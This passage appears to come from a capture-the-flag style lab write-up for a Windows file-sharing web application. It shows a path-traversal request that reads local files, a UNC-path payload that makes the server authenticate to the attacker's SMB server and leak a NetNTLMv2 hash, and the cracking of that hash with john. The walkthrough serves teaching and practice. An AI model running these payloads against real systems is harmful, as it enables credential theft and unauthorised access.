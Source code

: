 ![lushare](lushare.png)

This is a file sharing web application. While we can download the file, nothing special is in it. When we do so, we can see the following request:

```terminal
# request 
http://lus2dc.lustrous2.vl/File/Download?fileName=audit.txt
```

Let's check for local file inclusion (LFI):

```terminal
# request
http://lus2dc.lustrous2.vl/File/Download?fileName=..\..\..\..\windows\win.ini

# result
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

This indeed works to retrieve local files the user the web server is running as has access to. We however don't really know which files to read at this point. Since this is a windows machine, we can try to provide a UNC Path and see if the requests hits our own machine:

```terminal
# start smb server
sudo smbserver.py share share -smb2support

# request unc path
http://lus2dc.lustrous2.vl/File/Download?fileName=\\10.8.0.101\share\file.txt

# capture hash
[*] Incoming connection (10.10.105.184,60396)
[*] AUTHENTICATE_MESSAGE (LUSTROUS2\ShareSvc,LUS2DC)
[*] User LUS2DC\ShareSvc authenticated successfully
[*] ShareSvc::LUSTROUS2:aaaaaaaaaaaaaaaa:****475c71e4c521f1be5437e372e6aa:0101000000000000000b5ceff10cdb01dbee5b01128697c10000000001001000660075006a004c005500710053006a0003001000660075006a004c005500710053006a00020010004100530052006a00670046004b005a00040010004100530052006a00670046004b005a0007000800000b5ceff10cdb0106000400020000000800300030000000000000000000000000210000df5dc216b53fbf3432447325857e3f50bc34f11c3b05df412787003c9dfbda620a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e0038002e0030002e003100300031000000000000000000
```

We can attempt to crack this hash using john:

```terminal
~/tools/john/run/john -w=$HOME/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt hash
...
***        (ShareSvc)
```
